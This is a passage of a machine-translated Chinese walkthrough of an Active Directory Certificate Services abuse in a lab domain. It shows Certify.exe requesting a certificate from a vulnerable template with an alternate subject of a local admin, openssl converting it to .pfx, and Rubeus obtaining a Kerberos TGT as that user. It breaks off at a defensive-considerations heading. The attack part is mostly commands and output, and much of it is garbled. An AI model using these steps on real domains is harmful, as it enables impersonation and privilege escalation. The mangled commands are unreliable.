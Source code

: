 我们将展示场景 3 的滥用。

接下来，让我们为这个模板/CA 请求一个新证书，指定阿达`**localadmin**`作为备用主体:

**C:\ Temp>Certify.exe 请求/CA:DC . the shire . local \ the shire-DC-CA/template:VulnTemplate/altname:local admin
*_ _ _ _ _ _/*| |(*)/*|
| | ^ _ ^ _ ^*|*|
|/_ \ ' | |*| |*|/|*|*/
v1.0.0
[ *]操作:请求 a 证书[* ]当前用户上下文:THESHIRE\harmj0y
[ *]未指定主题名称，使用当前上下文作为主题。[*]Template:VulnTemplate
[*]Subject:CN = harmj 0y，OU=TestOU，DC=theshire，DC = local[*]AltName:local admin
[*]证书颁发机构:DC . The shire . local \ The shire-DC-CA[*]CA 响应:证书已颁发。
[*]Request ID:337[*]cert . PEM:
——BEGIN RSA 私钥——
miiepaibaakcaqean 8 bkuwcyj 8…
——END RSA 私钥—
——BEGIN 证书—
miigtcbqmawibagitvqaaav…
——END 证书——
[*]转换为:openssl**

将`**-----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----**`部分复制到 Linux/macOS 上的一个文件中，运行 openssl 命令将其转换为. pfx，出现提示时，不要输入密码:

**(基础)笔记本电脑:~ harmj 0y $ OpenSSL pkcs12-in cert . PEM-keyex-CSP " Microsoft Enhanced Cryptographic Provider v 1.0 "-Export-out cert . pfx
输入导出密码:
验证-输入导出密码:
(基础)笔记本电脑:~ harmj0y$**

最后，将 cert.pfx 移动到您的目标机器文件系统(手动或通过 Cobalt Strike)，并使用 Rubeus 为`**altname**`用户请求一个 TGT:

**C:\ Temp>Rubeus.exe asktgt/user:local admin/certificate:C:\ Temp \ cert . pfx
*_ _(*\ | |
*)_*| |**_*| _*/| | | | _ | _ | | |/*)| \ | | | |)| |*| |*| |*| |*|/|/|*)**/(_/
v 1 . 6 . 1
【*】动作:用 etype rc4_hmac 和 subject 询问 TGT[*]PKINIT:CN = harmj 0y，OU=TestOU，DC=theshire，DC = local
[*]Building AS-AS [*]base64(ticket . kir bi):
doIFujCCBbagAwIBBaEDAgEWooIExzCC……(snip)……
service name:krbtgt/the shire . local
service realm:the shire。本地
用户名:本地管理员
用户领域:THESHIRE。本地
开始时间:2/22/2021 下午 2:06:51
结束时间:2/22/2021 下午 3:06:51
更新截止时间:3/1/2021 下午 2:06:51
标志:name_canonicalize，pre_authent，initial，renewable，forwardable
key type:RC4 _ hmac
Base64(key):etb 5 wpf wembszr 2+**

**防守注意事项**

